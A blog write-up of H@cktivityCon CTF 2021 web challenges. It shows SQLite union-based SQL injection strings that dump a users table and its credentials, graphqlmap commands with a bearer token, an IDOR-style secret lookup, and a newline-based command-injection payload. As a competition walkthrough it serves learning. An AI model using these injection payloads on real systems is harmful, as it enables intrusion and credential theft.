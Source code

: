 ```yaml
---
layout: post
title:  H@cktivityCon CTF 2021  Web Challenges Writeup                               # Title of the page
hide_title: false                                  # Hide the title when displaying the post, but shown in lists of posts
feature-img: "assets/img/writeups/Hackcon/abu_index.png"              # Add a feature-image to the post
thumbnail: "assets/img/writeups/Hackcon/abu_index.png"  # Add a thumbnail image on blog view
color: dufault                            # Add the specified color as feature image, and change link colors in post
bootstrap: true                                   # Add bootstrap to the page
author: abdoghazy
excerpt_separator: <!--more-->
tags: [ctf, writeup, Web]
---
```

<h1>H@cktivityCon CTF 2021  Web Challenges Writeup </h1>  
 <!--more-->

Hello All iam abdelhameed ghazy and this is my writeup for some web challenges in H@cktivityCon CTF 2021 

First challenge : All Backed Up    Level: Medium      sqlite_injection and graphql 
Desc : Grandma always knew how to make tried-and-true baked goods, and these recipes prove it!


<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_index.png" /> 

as we see there is four blogs about cakes so let's see any one of them
http://challenge.ctf.games:31353/post/Blackberry-Orange Cake

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_somecake.png" /> 


as we see there is a endpoint called post and then there is another endpoint had the name of cake so let's try sqli 
http://challenge.ctf.games:31353/post/Blackberry-Orange Cake' or 1=1--
after i tried this it gives the first cake : 

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_sqli1.png" /> 

so let's know the numbers of columns by ' order by 1 --
after incresing the number we got that we had  6 columns so let's use union to dump data 
http://challenge.ctf.games:31353/post/Blackberry-Orange' union select 1,2,3,4,5,6 --

the column 2,4,6  are reflected into the page so we will dump using them 
<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_sqli_column.png" /> 


first i used http://challenge.ctf.games:31353/post/Blackberry-Orange' union select 1,sqlite_version(),3,4,5,6 --

to make sure that's a sqlite so i tried to dump the columns from database by this 

http://challenge.ctf.games:31353/post/Blackberry-Orange' union select 1,sql,3,4,5,6 from sqlite_master limit 1,1 --
i found a table called posts so i ignored it and then i used this 
http://challenge.ctf.games:31353/post/Blackberry-Orange' union select 1,sql,3,4,5,6 from sqlite_master limit 2,1--
to get the second table (users)

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_sqli_users.png" /> 
as you see there is a table called users had username,password  so let's dump the creds 

http://challenge.ctf.games:31353/post/Blackberry-Orange' union select 1,username,3,password,5,6 from users--

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_sqli_creds.png" /> 
as you see we got the creds 

username :congon4tor   password : n8bboB!3%vDwiASVgKhv

and there isn't  user else 

so i stuck here but after review requests i found a request sent to graphql and i didn't like it :( 

so i used graphql map : (it's  not a scanner i just use it to help me write my quiers eaisly)

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_graphqlmap.png" /> 

python3 graphqlmap.py -u http://challenge.ctf.games:31353/graphql --method POST --json

and then i used dump_new command to view graphql contents 

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_graphql_dump.png" /> 

as we see we had intersting stuff here 

Mutation called  (authenticateUser) took two parameters username and password both of them is string
Query called flag
token used in auth 

at first i tried to call flag qurey by this : {flag}
but it returned  :(error authenticating user: invalid token)

so by logic we need to use authenticateUser mutation to get token then used it to auth then call the flag query 

but for sorry i didn't know how to use it :( 
so i started searching how to use mutation and queries and Alhamdullah I got it 

first we will get the token by this command : mutation{authenticateUser(username:"congon4tor" password:"n8bboB!3%vDwiASVgKhv"){token}}

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_graphql_token.png" /> 

nice !!! Now We got the token but didn't know how to use it to call the flag maybe it's a authorization header or we will send it in graphql parameter but after i switch on my browser tabs i found the github repo for graphqlmap it provide us to sent custom headers 
by this option : --headers

so, i exit graphql map and use this new command : 
python3 graphqlmap.py -u http://challenge.ctf.games:31353/graphql --method POST --json  --headers '{"Authorization" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNvbmdvbjR0b3IiLCJleHAiOjE2MzIyMzI1NjEsImlhdCI6MTYzMjA1OTc2MSwiaXNzIjoiQ29uZ29uNHRvciJ9.WhAB-0xq54d4w4WT0cW2Ev8iozY-ASk0pQi2WGHDv-8"}'

and then called flag query {flag}

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_flag.png" /> 


Second  challenge : OPA Secrets    Level: Hard      Flask Code Review , Idor  
Desc : OPA! Check out our new secret management service

After you read : i see it's a not hard challenge but any way let's see 

after signup & login we found that it takes secret 

opa_index 

while browsing i found the github repo that had the source code ;) 

so as always i see the changes in the files and no thing intersted either admin password and it's not working also xD 
but i found secret from admin called Flag and it's id 
<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/oba_flagid.png" /> 

so let's see app.py  , as we see there is a endpoint called getValue that calls function called get_secret() 
<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/oba_apppy.png" /> 

it sends post request to a locally host and get the secret so i tried secret id that we got and i got the flag xD

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/oba_flag.png" /> 


also we had an medium command injection  challenge that use sha256 command but  filters all special chars  (;&|) so i bypassed it by  : /n so my payload was 
flag.txt%0Acat flag.txt

